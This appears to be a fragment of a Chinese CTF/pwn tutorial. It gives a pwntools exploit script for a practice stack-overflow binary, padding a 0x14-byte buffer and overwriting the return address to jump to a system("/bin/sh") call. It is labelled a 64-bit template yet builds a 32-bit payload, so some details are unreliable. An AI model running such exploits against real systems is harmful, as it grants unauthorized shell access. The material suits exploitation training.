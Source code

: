 [![](assets/1709193437-115263793438e36bfe7b3d88d7be346f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224000549-6965ad4c-d265-1.png)

## exp.py

-   危险的 system("/bin/sh"); 0x08048486

```bash
# 64 位栈溢出模版
# ++++++++++++++++++++++++++++++++++++++++++
# +  微信公众号：攻有道       By:Cha111Ng1    +
# ++++++++++++++++++++++++++++++++++++++++++
# Github: https://github.com/Cha111Ng1/ghidra_scripts_cha11
from pwn import *

context(os='linux', arch="amd64", log_level="debug")
content = 0

# 计算出的填充字符，0x14：缓冲区大小，+4：因为是 32 位
payload = b'a' * (0x14+4)
# 想要其返回的函数地址，即前面填充 a 至函数返回地址时，把返回地址填充为我们指定的函数地址，这样在堆栈做 ret 操作时 eip 跳转到我们填充的地址
system_addr = 0x08048486

def main():
    if content  == 1:
        # 本地文件方式
        cha11 = process("./test_01_32")
    else:
        # 远程连接方式
        cha11 = remote('10.37.130.2', '1337')
    # 跳到恶意位置
    exp = payload + p32(system_addr)
    # 发送恶意载荷
    cha11.sendline(exp)
```